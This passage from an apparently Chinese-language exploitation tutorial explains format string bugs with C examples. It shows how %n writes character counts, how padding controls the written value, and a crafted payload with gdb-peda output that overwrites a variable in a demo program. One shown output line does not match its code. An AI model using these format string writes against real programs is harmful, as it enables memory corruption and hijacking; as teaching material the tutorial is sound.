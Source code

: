 `i` 被赋值为 6，因为在遇到转换指示符之前一共写入了 6 个字符（`hello` 加上一个空格）。在没有长度修饰符时，默认写入一个 `int` 类型的值。

通常情况下，我们要需要覆写的值是一个 shellcode 的地址，而这个地址往往是一个很大的数字。这时我们就需要通过使用具体的宽度或精度的转换规范来控制写入的字符个数，即在格式字符串中加上一个十进制整数来表示输出的最小位数，如果实际位数大于定义的宽度，则按实际位数输出，反之则以空格或 0 补齐（`0` 补齐时在宽度前加点`.` 或 `0`）。如：

```c
#include<stdio.h>
void main() {
    int i;

    printf("%10u%n\n", 1, &i);
    printf("%d\n", i);
    printf("%.50u%n\n", 1, &i);
    printf("%d\n", i);
    printf("%0100u%n\n", 1, &i);
    printf("%d\n", i);
}
$ ./a.out
         1
10
00000000000000000000000000000000000000000000000001
50
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001
100
```

就是这样，下面我们把地址 `0x8048000` 写入内存：

```c
printf("%0134512640d%n\n", 1, &i);
$ ./a.out
...
0x8048000
```

还是我们一开始的程序，我们尝试将 `arg2` 的值更改为任意值（比如 `0x00000020`，十进制 32），在 gdb 中可以看到得到 `arg2` 的地址 `0xffffd538`，那么我们构造格式字符串 `\x38\xd5\xff\xff%08x%08x%012d%13$n`，其中 `\x38\xd5\xff\xff` 表示 `arg2` 的地址，占 4 字节，`%08x%08x` 表示两个 8 字符宽的十六进制数，占 16 字节，`%012d` 占 12 字节，三个部分加起来就占了 4+16+12=32 字节，即把 `arg2` 赋值为 `0x00000020`。格式字符串最后一部分 `%13$n` 也是最重要的一部分，和上面的内容一样，表示格式字符串的第 13 个参数，即写入 `0xffffd538` 的地方（`0xffffd564`），`printf()` 就是通过这个地址找到被覆盖的内容的：

```text
$ python2 -c 'print("\x38\xd5\xff\xff%08x%08x%012d%13$n")' > text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf  
Breakpoint 1 at 0x8048350
gdb-peda$ r < text  
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 --> 0xffffd538 --> 0x88888888
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
```